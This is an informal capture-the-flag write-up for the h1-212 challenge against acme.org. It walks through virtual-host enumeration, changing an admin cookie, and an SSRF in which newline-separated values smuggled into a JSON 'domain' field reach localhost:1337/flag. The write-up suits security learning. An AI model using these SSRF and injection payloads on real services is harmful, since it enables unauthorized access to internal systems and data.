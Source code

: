# h1-212

OK here is my write up 


so first i start brute force and crawl directory to check if possible to get some files there (using my tool https://github.com/chamli/CyberCrowl)

then i used virtual-host-discovery tool to get all virtual host there 

(i know that jobert make this task so that's why i checked his github :D and yeah it was there ) 

![image](https://user-images.githubusercontent.com/7364615/33027283-f949a3ae-ce12-11e7-98f5-222dcb97319e.png)

![image](https://user-images.githubusercontent.com/7364615/33027406-4acf6b14-ce13-11e7-9310-770652435ca4.png)

```
Found: www.acme.org (200)
Found: dev.acme.org (200)
Found: local (200)
Found: localhost (200)
Found: status.acme.org (200)
Found: status (200)
Found: staging.acme.org (200)
Found: staging (200)
Found: development (200)
Found: development.acme.org (200)
Found: uat (200)
Found: uat.acme.org (200)
Found: acme.org (200)
Found: beta (200)
Found: beta.acme.org (200)
Found: secure (200)
Found: secure.acme.org (200)
Found: mobile (200)
Found: mobile.acme.org (200)
Found: 127.0.0.1 (200)
Found: m.acme.org (200)
Found: m (200)
Found: admin (200)
Found: admin.acme.org (200)
Found: old (200)
Found: old.acme.org (200)
Found: v1.acme.org (200)
Found: v1 (200)
Found: v2.acme.org (200)
Found: v2 (200)
Found: v3.acme.org (200)
Found: v3 (200)
Found: alpha (200)
Found: alpha.acme.org (200)
```
so as description said : admin.acme.org this is the one :D 
(An engineer of acme.org launched a new server for a new admin panel)

After that i check header : 
```
root@ip-172-31-20-83:/home/ubuntu# curl -I http://admin.acme.org
HTTP/1.1 200 OK
Date: Sat, 18 Nov 2017 22:59:11 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: admin=no
Content-Type: text/html; charset=UTF-8
```
next i start get 406 after make( admin=yes ) and change (GET to POST)

![image](https://user-images.githubusercontent.com/7364615/32996613-4079913c-cd85-11e7-8b8c-6ba8b8aa1192.png)

so i get some stackoverflow solution which ask to look for good content-type
```
https://stackoverflow.com/questions/14251851/what-is-406-not-acceptable-response-in-http
```

brute force all type possible get that "application/json" is the one :D 

![image](https://user-images.githubusercontent.com/7364615/32996624-64af4498-cd85-11e7-8b15-b046b0d6b4de.png)


THEN START PLAY WITH JSON DATA 

![image](https://user-images.githubusercontent.com/7364615/32996628-6e864b56-cd85-11e7-9749-30779d47e516.png)

So by send random data we get second error 'domain' required

By start send random domain "www.test.com" make it work and get another error :D  

```
{"error":{"domain":"incorrect value, sub domain should contain 212"}}
```
so when domain is valid we get data base64 (Easy way to get that valid domain site:212.*.com) 

![image](https://user-images.githubusercontent.com/7364615/33027790-629d5b6a-ce14-11e7-824e-3a79ac055f67.png)

Then send request 

![image](https://user-images.githubusercontent.com/7364615/32996636-7dab1698-cd85-11e7-8a26-a8c27b0cfab0.png)

![image](https://user-images.githubusercontent.com/7364615/32996640-8aa5e800-cd85-11e7-80e4-04356e646d68.png)

which is the source code of that website

It's look like SSRF here guys :D 

So just need to bypass .com and 212 containe , if we send domain with 212.*.com we can break all check 

after read alot from here (thx orange ) and other article 
https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf 

i notice i can use "feed line" to make 2 request or more !! (\n) 

In this case it will make three request "localhost","212.test.com","212.hahahah.com"
```
{"domain":"localhost\n212.test.com\n212.hahahah.com"}  
```

Then when i start look for flag , i didnt get the point , Because i get always Null data for the first request of localhost

```
{"domain":"localhost/flag\n212.test.com"}  
```

And then make brute force using Burp Suite ,But before that get end , i check 1337 as its for "Leet" guys :D 

And Yeah found port 1337 open :D 
```
{"domain":"localhost:1337/flag\n212.test.com"}  
{"domain":"localhost/server-status\n212.test.com"} 
```

![image](https://user-images.githubusercontent.com/7364615/33026321-766f86f8-ce10-11e7-9fdd-544673744e51.png)


with this data it will increment id+2

id+1 for localhost and id+2 for 212.test.com


So just get request of the id+1 get make us read the flag 

then base64 flag data and pwn it :D

1337 : leet port :D

![image](https://user-images.githubusercontent.com/7364615/33025984-b0f7e3f2-ce0f-11e7-8513-ee303f78c264.png)

FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6


Amazing ctf :D
